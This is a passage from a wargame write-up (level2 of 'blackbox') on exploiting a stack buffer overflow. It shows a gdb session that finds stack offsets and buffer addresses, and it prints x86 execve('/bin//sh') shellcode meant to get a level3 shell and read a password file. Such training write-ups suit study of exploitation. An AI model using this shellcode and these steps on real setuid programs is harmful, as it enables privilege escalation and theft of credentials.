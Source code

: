 So without gdb, the address of the first local variable is `0xbfffdac0`.

```
level2@blackbox:/tmp$ gdb test
...
(gdb) disassemble main
Dump of assembler code for function main:
0x08048354 <main+0>: lea    0x4(%esp),%ecx
0x08048358 <main+4>: and    $0xfffffff0,%esp
0x0804835b <main+7>: pushl  0xfffffffc(%ecx)
0x0804835e <main+10>: push   %ebp
0x0804835f <main+11>: mov    %esp,%ebp
0x08048361 <main+13>: push   %ecx
0x08048362 <main+14>: sub    $0x24,%esp
0x08048365 <main+17>: lea    0xfffffff8(%ebp),%eax
0x08048368 <main+20>: mov    %eax,0x4(%esp)
0x0804836c <main+24>: movl   $0x8048498,(%esp)
0x08048373 <main+31>: call   0x8048290 <printf@plt>
0x08048378 <main+36>: mov    $0x0,%eax
0x0804837d <main+41>: add    $0x24,%esp
0x08048380 <main+44>: pop    %ecx
0x08048381 <main+45>: pop    %ebp
0x08048382 <main+46>: lea    0xfffffffc(%ecx),%esp
0x08048385 <main+49>: ret    
...
End of assembler dump.
(gdb) break *main+17
Breakpoint 1 at 0x8048365
(gdb) run
Starting program: /tmp/test 

Breakpoint 1, 0x08048365 in main ()
(gdb) p $ebp-8
$1 = (void *) 0xbfffdaa0
```

While inside gdb, the address of the same variable is `0xbfffdaa0`, that's `0x20` bytes lower.

This means, that for `getowner`, when running outside gdb, the value of `ebp` is `0xbfffdaa8+0x20=0xbfffdac8`, and the bottom of `buf` is at `0xbfffdac8-0x98=0xbfffda30`.

Now for the second question - what do we put in the rest of the variable `filename`?

Well, firing up a shell would be nice, because, as I mentioned earlier, the process runs as if the user `level3` ran it, so if that process were to execute a shell, that shell would be level3's shell, and we can cd to level3's home directory and get the contents of the password file.

The question of writing shellcode is discussed thoroughly in Aleph1's "Smashing the stack for fun and profit".

In this case however, I like to use another version of shellcode, which does not involve any jumps, about which I read in murat's "Designing shellcode demystified". Anyway, this is the shellcode:

```asm
xorl  %eax,%eax
pushl %eax
pushl $0x68732f2f
pushl $0x6e69622f
movl  %esp, %ebx
pushl %eax
pushl %ebx
movl  %esp, %ecx
xorl  %edx, %edx
movb  $0x0b, %al
int   $0x80
```
